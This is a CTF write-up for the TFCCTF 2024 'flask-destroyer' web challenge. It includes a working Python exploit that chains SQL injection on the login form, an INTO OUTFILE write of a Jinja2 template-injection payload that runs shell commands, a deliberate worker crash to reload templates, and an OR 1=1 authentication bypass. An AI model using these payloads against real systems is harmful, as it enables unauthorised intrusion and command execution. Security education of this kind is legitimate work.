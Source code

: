 ```yaml
---
layout: post
title:  "flask destroyer - TFCCTF 2024"
date:   2024-08-03 00:00:00 -0400
render_with_liquid: false
---
```


[TFCCTF 2024](https://ctftime.org/event/2423)

# flask-destroyer (web)
## Solution

There is an sqli on login, and `secure_file_priv = ""`.
So we can upload any file we want.

There is just the problem that flask hotloading is off, so we cannot load new templates.

The solution is crashing the worker so when it restarts it loads the new templates in.
The intented way to crash the worker is abusing `strtok` from libc, `asdsad:asda:` segfaults it

The full exploit then:
- upload template
- crash
- get new template

```python
#!/usr/bin/env python3
import requests
import time
import string
from urllib.parse import quote_plus

# REMOTE = "http://0.0.0.0:1337/"
REMOTE = "http://challs.tfcctf.com:32006/"

def create_file():
    payload = '''" UNION SELECT '{{ dict.__base__.__subclasses__()[379]("cat $(find /tmp -type f)",shell=True,stdout=-1).communicate()[0] }}', '', '' into outfile '/destroyer/app/templates/a.html'-- '''
    login = f'username=1&password={payload}&vibe=y'
    res = requests.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
        'http': 'http://0.0.0.0:8080',
        'https': 'https://0.0.0.0:8080'
    })


def crash():
    payload = '''" UNION SELECT 'this works', 'sdsadasd', 'bla:'-- '''
    login = f'username=1&password={payload}&vibe=y'
    res = requests.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
        'http': 'http://0.0.0.0:8080',
        'https': 'https://0.0.0.0:8080'
    })

def get():
    payload = '''" OR 1=1-- '''
    login = f'username=1&password={payload}&vibe=y'
    with requests.Session() as ses:
        ses.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        })
        res = ses.get(REMOTE + 'a.html', proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        })
        print(f"DEBUGPRINT[4]: go.py:37: res.text={res.text}")

create_file()
time.sleep(2)
crash()
time.sleep(5)
get()
```

## Flag
`TFCCTF{Cr4Sh_g0_bRbRbRbRbR}`

shafouz 2024/08/03
